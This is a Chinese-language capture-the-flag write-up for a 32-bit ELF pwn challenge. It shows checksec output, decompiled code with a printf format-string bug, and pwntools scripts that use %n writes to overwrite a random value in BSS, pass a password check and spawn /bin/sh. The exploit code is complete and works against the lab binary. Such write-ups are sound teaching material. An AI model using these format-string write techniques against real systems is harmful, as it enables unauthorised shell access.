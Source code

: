 
`file` 检查一下程序的基本信息
```
┌──(kali㉿kali)-[~/桌面]
└─$ file ./pwn            
./pwn: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6a8aa744920dda62e84d44fcc440c05f31c4c23d, stripped
```

`checksec` 检查一下程序的保护措施，开了 NX 和 Canary
```
pwndbg> checksec
[*] '/home/kali/桌面/pwn'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```
IDA 查看 `main` 函数
```
int __cdecl main(int a1)
{
  unsigned int v1; // eax
  int result; // eax
  int fd; // [esp+0h] [ebp-84h]
  char nptr[16]; // [esp+4h] [ebp-80h] BYREF
  char buf[100]; // [esp+14h] [ebp-70h] BYREF
  unsigned int v6; // [esp+78h] [ebp-Ch]
  int *v7; // [esp+7Ch] [ebp-8h]

  v7 = &a1;
  v6 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  v1 = time(0);
  srand(v1);
  fd = open("/dev/urandom", 0);
  read(fd, &dword_804C044, 4u);
  printf("your name:");
  read(0, buf, 0x63u);
  printf("Hello,");
  printf(buf);
  printf("your passwd:");
  read(0, nptr, 0xFu);
  if ( atoi(nptr) == dword_804C044 )
  {
    puts("ok!!");
    system("/bin/sh");
  }
  else
  {
    puts("fail");
  }
  result = 0;
  if ( __readgsdword(0x14u) != v6 )
    sub_80493D0();
  return result;
}
```
发现无法构造栈溢出，但是 `system` 函数直接给出了，只要通过 `if` 的判断就可以直接调用，即只需满足 `atoi(nptr) == dword_804C044` 即可实现 `system` 的调用
虽然 `dword_804C044` 的值不确定，但是可以用格式化字符串通过上面的 `printf(buf)` 覆盖，只需精心构造一个 `payload`
先构造相关 `shellcode` 观察一下， `payload` 用于观察栈空间
```
from pwn import *
r = process('/home/kali/桌面/pwn')
context.log_level='debug'
payload = 'AAAA' + '-%p'*20
r.sendlineafter(b'your name:', payload)
r.sendlineafter(b'your passwd:', b'aaaaaaaa')
r.interactive()
```
得到相关结果，发现输入的内容被保存在了栈的第 10 处空间
```
Hello,AAAA-0xffcc3008-0x63-(nil)-0x3e8-0x3-0xf7fb1c08-0xffcc3070-0xf7fb0ff4-0xc-0x41414141-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d\n
```
想要覆盖 `0x804C044` 处的数据，且为了保证成功，需要将其之后 3 位的数据也覆盖，需要覆盖 4 位数据，构造 `payload`。其中输入后，栈中每一处空间可以存储 4 位字符，构造的输入在 `'AAAA%16$n%17$n%18$n%19$n'` 后添加的 4 个 4 位地址分别被栈中的第 16、17、18、19 处空间存储，故 `%16$n` 表示将在栈的第 16 处空间读取到的数据视为地址（虽然这里确实存储的是地址），并将 `printf()` 实际输出的字符数（这里是 4）作为值写入该地址指向的位置，即覆盖了 `0x804C044` 处的数据（覆盖后的数据为 `0x04040404`），接下来只需要将 `password` 中输入的值与 `0x804C044` 的数据相等即可。故构造 `shellcode`
```
from pwn import *
r = process('/home/kali/桌面/pwn')
context.log_level='debug'
bss = 0x804C044
payload = b'AAAA%16$n%17$n%18$n%19$n' + p32(bss) + p32(bss+1) + p32(bss+2) + p32(bss+3)
r.sendlineafter(b'your name:', payload)
r.sendlineafter(b'your passwd:', str(0x04040404))
r.interactive()
```
在本地调试成功
![image.png](https://cdn.jsdelivr.net/gh/chpocenkey/NoteImages/20240508111550.png)
打开靶机，远程连接，获取flag
![屏幕截图 2024-05-07 220912.png](https://cdn.jsdelivr.net/gh/chpocenkey/NoteImages/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202024-05-07%20220912.png)

